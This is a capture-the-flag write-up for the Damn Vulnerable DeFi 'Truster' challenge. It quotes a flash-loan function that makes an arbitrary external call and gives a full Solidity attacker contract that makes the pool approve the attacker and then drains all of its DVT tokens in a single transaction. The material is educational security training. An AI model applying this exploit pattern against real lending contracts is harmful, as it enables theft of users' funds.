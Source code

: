 # Intro

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.

# Attack explanation

Our objective is to take all DVT tokens from the lending pool in a single transaction. If we dig the contract, we can find the next function that is providing the loans:

```
function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

As we see, the parameters provided are borrow amount, address of the borrower, target contract to execute code and the data that is going to be executed. With the target.functionCall(data) we could approve our attacking sc to spend all of the pool tokens from the token contract.

So, in order to beat the level, we need to execute flashLoan, make the pool approve our attacker sc as spender at the token contract, repay the loan and take all the tokens after that to our attacker address.

# Attack function

We can create the following attacker contract to make the attack in a single transaction:

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

/**
 * @title AttackerContractTruster
 * @author Juan Farber (github.com/Farber98)
 */
contract AttackerContractTruster {
    constructor(
        IERC20 _tokenAddress,
        address _trusterLenderPool,
        address _attacker,
        uint256 balance
    ) {
        // Prepare data that we are going to execute on flashLoan call. This is the approval.
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            balance
        );

        // Call the flashLoan so the so the pool approves this sc inside the token contract.
        _trusterLenderPool.call(
            abi.encodeWithSignature(
                "flashLoan(uint256,address,address,bytes)",
                0, // Borrow 0 so we don't need to repay.
                address(this),
                _tokenAddress,
                data
            )
        );

        // Take the funds and transfer to attacker address.
        _tokenAddress.transferFrom(_trusterLenderPool, _attacker, balance);
    }
}

```
